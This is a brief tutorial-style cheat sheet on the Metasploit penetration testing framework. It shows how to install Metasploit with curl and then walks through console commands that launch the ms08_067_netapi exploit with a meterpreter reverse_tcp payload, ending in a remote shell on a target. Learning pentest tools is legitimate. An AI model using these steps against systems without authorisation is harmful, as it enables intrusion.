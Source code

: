 # Metasploit
Metasploit is an open-source penetration testing framework that provides tools for discovering, exploiting, and validating vulnerabilities in systems.

## Installing Metasploit
Metasploit can be installed on Linux, Windows, and macOS.=

Linux download command:
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfinstall > msfinstall
  chmod 755 msfinstall
  ./msfinstall

# Basic Functionality

  # 1) Start Metasploit
    - msfconsole

  # 2) Search for Exploits
    - search exploit windows

  # 3) Select an Exploit
    - use exploit/windows/smb/ms08_067_netapi

  # 4) Show Available Options
    - show options

  # 5) Set Target Parameters
    - set RHOSTS 192.168.1.100
    - set LHOST 192.168.1.50

  # 6) Set a Payload
    - set PAYLOAD windows/meterpreter/reverse_tcp

  # 7) Run the Exploit
    - exploit

If successful, you will gain a remote shell to the target machine.
